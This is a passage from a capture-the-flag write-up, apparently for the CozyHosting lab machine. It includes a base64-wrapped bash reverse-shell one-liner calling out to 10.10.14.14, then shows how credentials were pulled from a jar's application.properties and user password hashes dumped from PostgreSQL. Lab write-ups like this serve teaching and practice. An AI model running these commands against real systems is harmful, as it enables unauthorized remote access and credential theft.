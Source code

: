 I am gonna try with IFS expansion.

```bash
echo -n 'bash -c "bash -i >&/dev/tcp/10.10.14.14/80 0>&1"' | base64
echo <base64-value>| base64 -d |bash
```

![image.png](image%2017.png)

![image.png](image%2018.png)

## Shell as app

I see `cloudhosting-0.0.1.jar` file, as `jar` file is zip file I am gonna unzip it.

```bash
unzip cloudhosting-0.0.1.jar
```

Permission denied, let’s unzip it to other directory.

```bash
unzip cloudhosting-0.0.1.jar -d /tmp/app
```

Checking for sensitive files I found application.properties file may contain PostgreSQL credentials, I read about it in this [post](https://vaadin.com/docs/latest/flow/security/advanced-topics/external-configuration) then in a shell, I found `application.properties` where `PostgreSQL` credentials are stored. 

![image.png](image%2019.png)

```bash
psql -h 127.0.0.1 -p 5432 -U postgres
```

![image.png](image%2020.png)

Shell is bad, but we can be ensured that we are inside PostgreSQL by running help command:

```sql
\? #help
\l #list databases
\c cozyhosting #select database, others are default
\dt #list tables
\d users #describe the users table information
select name, password from users;
```

[PostgreSQL Pentesting](https://exploit-notes.hdks.org/exploit/database/postgresql-pentesting/)

![image.png](image%2021.png)

![image.png](image%2022.png)

I identified that hashes are `bcrypt`using [Hash Type Identifier](https://hashes.com/en/tools/hash_identifier)
